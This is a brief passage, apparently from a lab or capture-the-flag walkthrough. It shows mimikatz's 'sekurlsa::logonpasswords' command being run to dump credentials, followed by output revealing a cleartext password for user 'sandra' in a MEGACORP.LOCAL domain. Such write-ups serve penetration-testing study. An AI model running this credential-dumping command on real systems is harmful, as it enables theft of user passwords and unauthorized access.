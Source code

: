 we get mimikatz on the machine and run the following command to dump passwords:

`sekurlsa::logonpasswords`


Passwords:
```
         * Username : sandra
         * Domain   : MEGACORP.LOCAL
         * Password : Password1234!
```

sandra:Password1234!